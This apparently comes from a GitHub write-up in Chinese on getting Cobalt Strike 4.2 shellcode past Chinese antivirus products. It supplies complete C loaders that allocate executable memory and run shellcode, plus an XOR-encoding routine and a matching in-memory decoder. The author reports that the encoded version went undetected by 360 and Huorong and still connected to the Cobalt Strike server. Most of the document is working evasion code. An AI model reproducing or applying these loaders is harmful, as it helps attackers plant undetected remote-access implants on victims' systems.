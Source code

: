 CS版本：Cobalt Strike 4.2  
测试的杀软：360安全卫士v12、360杀毒、火绒

# 0x00 shellcode上线测试
Attacks->Packages->Payload Generator（选择之前创建的监听器，输出C格式）  
生成的代码如下  
```
/* length: 833 bytes */
unsigned char buf[] = "\xfc\xe8\x89\x00\x00\x00\x60...";
```
下载并安装VS2019，安装时勾选C++和windows这2类，创建windows控制台项目  
c语言实现loader，代码如下
```
#include <windows.h>
#include <stdio.h>

#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")

// shellcode
unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41...";

int main() {
    char* old = (char *)VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(old, buf, sizeof(buf));
    ((void(*)())old)();
    return 0;
}
```
经测试，编译执行后能够成功上线

拷贝到windows server 2008下  
首次复制到虚拟机的时候，360直接给删除了  
再次复制时，没有删除，而且扫描后也没有提示病毒（怀疑它是判断为虚拟机，故行为改变）  
但使用火绒扫描后，提示病毒，如下图  
![image](./pic/0.png)

# 0x01 shellcode免杀上线
使用如下C代码，对shellcode进行异或加密（每个字节和数字1进行异或）
```
#include <stdio.h>

unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00...";

int a = 1;//xor key
int b = sizeof(buf);
unsigned char str[891] = { 0 };//shellcode size

int main() {
    printf("char array length=%d\n", b);
    printf("\n");

    for (int i = 0; i < b; i++) {
        str[i] = buf[i] ^ a;
    }

    for (int i = 0; i < b; i++) {
        printf("\\x%x", str[i]);
    }
    
    return 0;
}
```
拷贝上述输出的shellcode到下述代码的字符数组中，下述代码会在内存中进行异或解密并执行
```
#include <stdio.h>
#include <windows.h>

#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")

unsigned char buf[] = "\xfd\x49\x82\xe5\xf1\xe9\xc9\x1...";

int main() {
    for (int i = 0; i < sizeof(buf); i++) {
        _InterlockedXor8( (volatile char *)buf + i, 1 );//xor key
    }
    
    char* old = (char *)VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(old, buf, sizeof(buf));
    ((void(*)())old)();
    return 0;
}
```
编译执行后，能成功连接到CS  
拷贝到windows server 2008 R2下  
360安全卫士、360杀毒、火绒均未提示  
扫描后也未提示，如下图  
![image](./pic/1.png)  
执行后能成功连接到CS，如下图  
![image](./pic/2.png)
